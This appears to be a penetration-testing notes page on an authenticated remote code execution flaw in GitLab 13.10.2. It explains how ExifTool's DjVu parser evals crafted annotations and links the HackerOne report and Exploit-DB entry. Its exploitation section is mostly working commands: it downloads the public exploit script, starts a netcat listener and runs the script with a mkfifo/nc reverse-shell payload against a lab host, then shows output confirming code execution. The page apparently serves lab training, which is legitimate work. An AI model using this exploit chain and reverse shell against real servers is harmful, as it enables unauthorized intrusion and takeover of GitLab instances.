 ```yaml
---
layout:
  width: default
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: false
  metadata:
    visible: true
---
```


# 13.10.2 - Remote Code Execution (Authenticated)

When uploading image files, GitLab Workhorse passes any files with the extensions [jpg|jpeg|tiff](https://gitlab.com/gitlab-org/gitlab/-/blob/v13.10.2-ee/workhorse/internal/upload/exif/exif.go#L104) through to [ExifTool](https://exiftool.org/) to remove any non-whitelisted tags. An issue with this is that ExifTool will ignore the file extension and try to determine what the file is based on the content, allowing for any of the supported parsers to be hit instead of just JPEG and TIFF by just renaming the uploaded file.

One of the supported formats is [DjVu](https://github.com/exiftool/exiftool/blob/11.70/lib/Image/ExifTool/DjVu.pm). When parsing the DjVu annotation, the [tokens are evaled](https://github.com/exiftool/exiftool/blob/11.70/lib/Image/ExifTool/DjVu.pm#L233) to "convert C escape sequences". There is some validation to try and ensure that everything is properly escaped, but a backslash followed by a newline is correctly handled allowing the quotes to be closed and arbitrary perl inserted and evaluated.

{% hint style="info" %}
## Official GitLab Report

[https://hackerone.com/reports/1154542](https://hackerone.com/reports/1154542)
{% endhint %}

{% hint style="info" %}
## Exploit DB

[https://www.exploit-db.com/exploits/49951](https://www.exploit-db.com/exploits/49951)
{% endhint %}

## Exploitation

As this is authenticated remote code execution, we first need a valid username and password. In some instances, this would only work if we could obtain valid credentials through OSINT or a credential guessing attack. However, if we encounter a vulnerable version of GitLab that allows for self-registration, we can quickly sign up for an account and pull off the attack.

Download the exploit script:

{% code title="Command" %}
```bash
wget https://www.exploit-db.com/download/49951
```
{% endcode %}

Start a [netcat.md](../../../../toolbox/tooling/post-exploitation/netcat.md "mention") listener:

{% code title="Command" %}
```bash
nc -lnvp 8443
```
{% endcode %}

Run exploit script from Exploit DB:

{% code title="Command" overflow="wrap" %}
```bash
python3 gitlab_13_10_2_rce.py -t http://gitlab.inlanefreight.local:8081 -u <USER> -p <PASS> -c 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc <IP> 8443 >/tmp/f '
```
{% endcode %}

{% code title="Output" %}
```bash
[1] Authenticating
Successfully Authenticated
[2] Creating Payload 
[3] Creating Snippet and Uploading
[+] RCE Triggered !!
```
{% endcode %}

